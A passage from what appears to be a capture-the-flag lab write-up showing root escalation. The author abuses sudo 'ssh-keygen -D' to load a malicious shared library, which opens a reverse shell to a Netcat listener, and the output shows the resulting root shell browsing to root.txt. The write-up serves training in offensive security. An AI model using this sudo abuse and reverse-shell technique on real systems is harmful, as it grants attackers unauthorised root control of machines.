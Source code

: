 I will execute `ssh-keygen -D` on the target system:

```bash
sudo ssh-keygen -D /opt/decode/lib.so
```

**Key points:** 
- `ssh-keygen -D` loads and executes the malicious shared library (`lib.so`).
- The payload inside `lib.so` is triggered, establishing a reverse shell to my attacker machine.

#### 4.5.1. Receiving the Root Shell

Since my Netcat listener is active, I receive an incoming connection:

```bash
❯ nc -nlvp 1234
listening on [any] 1234 ...
connect to [192.168.0.105] from (UNKNOWN) [192.168.0.106] 47266
whoami
root
ls
user.txt
pwd
/home/ajneya
cd ..
pwd
/home
ls
ajneya
steve
cd ..
ls
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
cd /root
ls
root.txt
cat root.txt 
```
